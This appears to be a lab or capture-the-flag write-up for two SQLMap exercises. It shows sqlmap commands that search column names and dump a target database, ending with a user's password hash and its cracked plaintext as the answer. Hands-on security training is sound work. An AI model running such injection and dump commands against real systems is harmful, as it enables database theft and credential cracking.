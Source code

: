 ## Challenge 1

What's the name of the column containing "style" in it's name? (Case #1) 

## Solution

So we search for the column that contains `style` in its name:

```sh
python3 sqlmap.py -u "http://94.237.55.96:34129/case1.php?id=1" --search -C style
```

after executing this command, SQLMap asked if I want to search based on `LIKE` or the exact name.

I choose the `LIKE` option because it would search for all column names containing `style`, and it provided with the name which is `PARAMETER_STYLE`.

## Challenge 2

What's the Kimberly user's password? (Case #1) 

## Solution 2

I dumped everything via:

```sh
python3 sqlmap.py -u "http://83.136.255.180:37096/case1.php?id=1" --dump
```

It asked me if I want to try the dictionary attack on the hashes, and in the end it provided me the table with the password hashes and cracked ones.

Kimberly's password is `d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)`.


